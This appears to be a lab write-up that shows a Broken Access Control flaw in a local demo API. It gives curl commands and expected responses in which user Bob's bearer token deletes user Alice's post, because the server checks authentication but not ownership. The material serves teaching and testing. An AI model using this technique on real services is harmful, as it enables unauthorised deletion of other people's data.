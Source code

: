 ## Exploitation Steps
The goal is to use an authenticated user, Bob, to delete a post that belongs to another user, Alice.

1. Verify the Target Exists
Before the attack, confirm that Alice's post (ID 1) is available. You can do this with a simple GET request.

```Bash
curl http://127.0.0.1:8000/posts/1
```
Expected Response:

```JSON

{"owner":"alice","content":"Post da Alice."}
```
2. Perform the Exploit
Now, send a DELETE request to the URL for Alice's post. The key to the exploit is to use Bob's authentication token (token_de_bob) in the Authorization header.

```Bash

curl -X DELETE "http://127.0.0.1:8000/posts/1" \
     -H "Authorization: Bearer token_de_bob"
```

The server will accept this request and respond with a 204 No Content status, indicating success, because it only checks for authentication, not for ownership.

3. Confirm the Deletion
To verify that the exploit was successful, try to retrieve Alice's post again.

```Bash

curl http://127.0.0.1:8000/posts/1
```
Expected Response:

```JSON

{"detail":"Post not found"}
```
This confirms that Bob successfully deleted Alice's resource, which is a critical Broken Access Control failure.
